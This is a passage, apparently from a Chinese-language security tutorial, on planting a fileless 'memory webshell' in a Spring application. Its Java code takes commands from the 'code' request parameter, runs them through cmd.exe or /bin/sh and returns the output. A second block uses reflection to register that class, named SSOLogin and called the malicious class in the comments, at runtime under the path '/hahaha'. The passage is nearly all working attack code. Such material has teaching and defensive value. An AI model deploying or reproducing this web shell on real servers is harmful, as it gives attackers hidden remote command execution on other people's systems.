 ```java
            String arg0 = request.getParameter("code");
            PrintWriter writer = response.getWriter();
            if (arg0 != null) {
                String o = "";
                java.lang.ProcessBuilder p;
                if(System.getProperty("os.name").toLowerCase().contains("win")){
                    p = new java.lang.ProcessBuilder(new String[]{"cmd.exe", "/c", arg0});
                }else{
                    p = new java.lang.ProcessBuilder(new String[]{"/bin/sh", "-c", arg0});
                }
                java.util.Scanner c = new java.util.Scanner(p.start().getInputStream()).useDelimiter("\\A");
                o = c.hasNext() ? c.next(): o;
                c.close();
                writer.write(o);
                writer.flush();
                writer.close();
            }else{
                response.sendError(404);
            }
        }catch (Exception e){
        }
    }
}

```

**第三步：**注册 controller

```java
/*1. 从当前上下文环境中获得 RequestMappingHandlerMapping 的实例 bean
  mappingHandlerMapping对象是用于注册controller的*/
RequestMappingHandlerMapping r = context.getBean(RequestMappingHandlerMapping.class);
/*2. 通过反射获得自定义 controller 中唯一的 Method 对象
  这里的反射是为了获得Method对象，以便动态注册controller时，
  告知接收到给定url路径的请求后，用那个Method来处理，其中me.landgrey.SSOLogin类就是我们的恶意类*/
Method method = (Class.forName("me.landgrey.SSOLogin").getDeclaredMethods())[0];
/* 3. 定义访问 controller 的 URL 地址
   这里定义的url对象是为了指定注入url，这个url就是我们的内存马路径*/
PatternsRequestCondition url = new PatternsRequestCondition("/hahaha");
/* 4. 定义允许访问 controller 的 HTTP 方法（GET/POST）
   告知注入的url允许的请求方法*/
RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
/* 5. 在内存中动态注册 controller
   RequestMappingInfo填入的信息类似于@RequestMapping注解中的信息，
   即url、允许的请求方法等。是真正注册controller的步骤*/
RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
r.registerMapping(info, Class.forName("me.landgrey.SSOLogin").newInstance(), method);

```

> 注意spring的版本，详情可以参考前面的两篇参考文章
>
> {： .prompt-warning}
